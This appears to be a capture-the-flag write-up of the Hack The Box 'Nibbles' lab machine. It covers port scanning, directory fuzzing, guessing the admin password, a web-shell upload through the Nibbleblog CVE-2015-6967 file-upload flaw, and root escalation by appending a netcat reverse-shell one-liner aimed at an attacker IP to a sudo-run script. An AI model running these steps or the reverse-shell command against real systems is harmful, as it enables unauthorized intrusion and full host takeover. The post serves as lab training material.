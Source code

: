 ```yaml
---
title: Nibbles
date: 2025-07-03 19:19:00 +/-0100
categories: [HackTheBox Machines]
tags: [CTF,HackTheBox]
image: /assets/img/Machines/Nibbles/Nibbles.png
description: 
    This post documents my walkthrough of the Nibbles machine from Hack The Box. It involves basic enumeration, a web app vulnerability, and simple Linux privilege escalation.
---
```





## Enumeration

### Port Scanning
The first thing that we're going to do is scanning for open ports using Nmap.

```bash
# Nmap 7.95 scan initiated Wed May  7 18:25:33 2025 as: /usr/lib/nmap/nmap -Pn -n -sC -sV -T4 -p- -oA Nmap-All-Ports 10.10.10.75
Nmap scan report for 10.10.10.75
Host is up (0.051s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed May  7 18:26:06 2025 -- 1 IP address (1 host up) scanned in 32.22 seconds
```
The Nmap scan returns a bunch of information, such as:
- The operating system is Ubuntu.
- Port `80/tcp` is open and running `HTTP` (Apache httpd 2.4.18).
- Port `22/tcp` is open and running `SSH` (OpenSSH 7.2p2 Ubuntu 4ubuntu2.2).

Since we don't have SSH credentials, we'll focus our attention on port 80.

### HTTP - Port 80

We begin by inspecting the root directory.

```bash
krakenn@Phoenix:~/CPTS/Boxes/NIBBLES$ curl 10.10.10.75 -o RDirectory-SC
```

![Desktop View](/assets/img/Machines/Nibbles/Root-Directory.png)

While inspecting the root directory, we discovered a new subdirectory: `/nibbleblog`.

### /nibbleblog

![Desktop View](/assets/img/Machines/Nibbles/Nibbleblog-Webpage.png)

Nothing intersting in this directory beside that the website is powered by `nibbleblog`.  
Using `Wappalyzer` we found the following results:

![Desktop View](/assets/img/Machines/Nibbles/Wappalyzer.png)

Page extension should be `.php`

### Directory / Page Fuzzing

```bash
krakenn@Phoenix:~/CPTS/Boxes/NIBBLES$ ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt:FUZZ -u http://10.10.10.75:80/nibbleblog/FUZZ -ic -e .php -o Directory-Fuzzing.json
```

![Desktop View](/assets/img/Machines/Nibbles/Directory-Page-Fuzzing.png)

#### /README 

![Desktop View](/assets/img/Machines/Nibbles/Nibbleblog-version.png)

This reveals the version of Nibbleblog that is being used. → `Nnibbleblog v4.0.3`

#### /content/users.xml

![alt text](../assets/img/Machines/Nibbles/content-users.png)

Username → `admin`

#### /admin.php 

![alt text](../assets/img/Machines/Nibbles/admin-pge.png)

It seems like the app blacklist IPs after some failed attemps.
After a deep inspection of the pages found i couldn't find a valid password, also nibbleblog does not have default creds. 
So we'll need to guess the password.

- admin : password
- admin : root
- admin : administratot
- `admin` : `nibbles`  → This one worked

## Exploitation

CMS used: `Nibbleblog v4.0.3`
This version of Nibbleblog is vulnerable to `CVE-2015-6967` which is an unrestricted file upload vulnerability in the `Image plugin` that allows remote administartors to execute arbitrary code by uploading a file with an executable extension, then accessing it via a direct request to the file in `content/private/plugins/my_image/image.php`

CVE Links:
- [CVE-2015-6967](https://nvd.nist.gov/vuln/detail/CVE-2015-6967)  
- [POC](https://packetstorm.news/files/id/133425)

Web Shells used:
- [wwwolf-php-webshell](https://github.com/WhiteWinterWolf/wwwolf-php-webshell)
- [p0wny-shell](https://github.com/flozz/p0wny-shell)

Go to : `http://<IP_@>/nibbleblog/admin.php?controller=plugins&action=config&plugin=my_image`  
Upload the web shell. ignore the errors

![alt text](../assets/img/Machines/Nibbles/webshell.png)

Finally access the image in `http://<IP_@>/nibbleblog/admin.php?controller=plugins&action=config&plugin=my_image`

![alt text](../assets/img/Machines/Nibbles/whoami.png)

As we can see the web shell works perfectly.  
Now let's search for the user flag.

![alt text](../assets/img/Machines/Nibbles/user-flag.png)

## Privilege Escalation

The first thing to do is run the `sudo -l` command to check if the current user can execute any commands as root without requiring the root password.

![alt text](../assets/img/Machines/Nibbles/sudo-l.png)

It turns out that the user `nibbler` can run `monitor.sh` as root.

**PS:** Don't mind me changing the web shell. I just wanted to test them both.

```bash
nibbler@Nibbles:…/plugins/my_image# unzip personal.zip

nibbler@Nibbles:…/plugins/my_image# cd personal/stuff

nibbler@Nibbles:…/plugins/my_image# echo "rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc [Attacker_IP] 1234 > /tmp/f" >> monitor.sh
```

![alt text](../assets/img/Machines/Nibbles/Priv_Escalation.png)

Now let's search for the root flag.

```bash
root@Nibbles:/home/nibbler/personal/stuff# cd /root

root@Nibbles:/home/nibbler/personal/stuff# cat root.txt
```

![alt text](../assets/img/Machines/Nibbles/root-flag.png)

**Mission complete**

![alt text](../assets/Done.gif)
